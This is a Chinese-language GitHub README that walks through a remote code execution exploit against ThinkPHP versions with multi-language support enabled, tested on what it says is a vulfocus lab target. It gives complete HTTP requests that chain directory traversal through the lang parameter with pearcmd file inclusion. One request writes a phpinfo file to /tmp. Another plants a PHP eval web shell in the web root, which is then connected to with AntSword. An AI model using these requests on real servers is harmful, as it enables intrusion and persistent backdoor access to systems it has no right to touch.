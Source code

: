 # Thinkphp6-Lang-rce
个人测试成功上传，该项目中出现的地址均为vulfocus靶场地址。靶场地址为：https://vulfocus.cn/#/dashboard                                                                         

由于该漏洞有多种方法，在此我只是分享其中一种方法，大佬勿喷。还在学习中的一个小白。上传检测的脚本只限内查使用，如出现问题个人承担后果。由于脚本是网络收集，如有侵权请联系作者删除。联系qq：2831258873

漏洞描述                                                                                                                                                                 
如果 Thinkphp 程序开启了多语言功能，攻击者可以通过 get、header、cookie 等位置传入参数，实现目录穿越+文件包含，通过 pearcmd 文件包含这个 trick 即可实现 RCE。

影响范围                                                                                                                                                                 
v6.0.1 < Thinkphp < v6.0.13                                                                                                                                             
Thinkphp v5.0.x                                                                                                                                                         
Thinkphp v5.1.x

第一步:测试环境是否在影响范围之中                                                                                                                                         
![image](https://user-images.githubusercontent.com/73454853/210168939-aa10f490-4e45-4da6-ba27-25b3d5393ff3.png)

第二步:尝试上传一个phpinfo并访问                                                                                                                                         
GET /public/index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/<?=phpinfo()?>+/tmp/hello.php HTTP/1.1                                     
Host: 123.58.224.8:42571                                                                                                                                               
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:107.0) Gecko/20100101 Firefox/107.0                                                                           
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8                                                                           
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2                                                                                           
Accept-Encoding: gzip, deflate                                                                                                                                         
Connection: close                                                                                                                                                       
Cookie: Cookie: think-lang:zh-cn                                                                                                                                       
Upgrade-Insecure-Requests: 1

![image](https://user-images.githubusercontent.com/73454853/210169090-d916f2b8-8f69-4e1b-a5d3-90f0acc260c6.png)

尝试访问，出现phpinfo的页面则成功                                                                                                                                         
http://123.58.224.8:42571/public/index.php?lang=../../../../../../../../tmp/hello
![image](https://user-images.githubusercontent.com/73454853/210169223-21ae832c-7506-41e2-bf12-5ba61554e536.png)

尝试上传后门                                                                                                                                                             
GET /public/index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/<?=@eval($_POST['ant']);?>+/var/www/html/1.php HTTP/1.1                 
Host: 123.58.224.8:42571                                                                                                                                               
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:107.0) Gecko/20100101 Firefox/107.0                                                                           
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8                                                                           
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2                                                                                           
Accept-Encoding: gzip, deflate                                                                                                                                         
Connection: close                                                                                                                                                       
Cookie: think_lang=zh-cn                                                                                                                                               
Upgrade-Insecure-Requests: 1                                                                                                                                           

![image](https://user-images.githubusercontent.com/73454853/210169516-9a3bda35-4ae8-4e9c-9867-f9af6167876e.png)

尝试用蚁剑进行连接
![image](https://user-images.githubusercontent.com/73454853/210169499-2fc17cae-7714-4a73-ad5b-9b93a26ce365.png)

